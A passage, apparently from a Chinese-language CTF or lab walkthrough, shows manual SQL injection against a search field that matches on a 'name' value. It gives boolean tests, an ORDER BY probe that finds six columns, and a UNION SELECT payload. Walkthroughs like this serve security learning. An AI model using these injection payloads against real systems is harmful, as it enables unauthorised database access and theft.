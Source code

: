 那么可以确定，其应该是搜索这里面的数据，并经过测试，发现其搜索的是上面数据中的`name`

`ok`那么就可以构造语句了，借助上面数据中的一个`name`即可，如，这里借用`tom`

## 手工sql注入

构造语句并测试，发现两个回显不同，说明确实存在

```shell
tom' and 1=1#
tom' and 1=2#
```

再次构造语句进行测试，最终在`7`时无回显，也就是有6个

```shell
tom' order by 6#
```

再次构造`union`测试是否会显示

```shell
tom' union select 1,2,3,4,5,6#
```

![](./pic-9/7.jpg)
